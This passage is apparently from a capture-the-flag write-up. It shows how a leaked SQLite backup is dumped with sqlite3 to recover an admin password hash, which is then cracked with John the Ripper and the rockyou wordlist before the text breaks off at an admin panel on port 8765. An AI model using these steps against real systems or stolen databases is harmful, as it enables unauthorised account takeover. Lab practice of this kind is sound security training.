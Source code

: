 - It's an sqlite database backup

```bash
$ file users.bak 
users.bak: SQLite 3.x database, last written using SQLite version 3034001
```

### Enumerating Backup file

- Using sqlite, we can find the admin's password:

```bash
$ sqlite3 users.bak 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.

sqlite> .schema
CREATE TABLE users(username text NOT NULL, password text NOT NULL);

sqlite> .tables
users

sqlite> SELECT * FROM users;
admin|REDACTED
```

### Cracking Admin's hash

- Use `john` to crack the admin's hash

```bash
$ john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (?)
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

- May be this is the password for the admin panel at Port 8765

---

## Admin Panel

### Port 8765
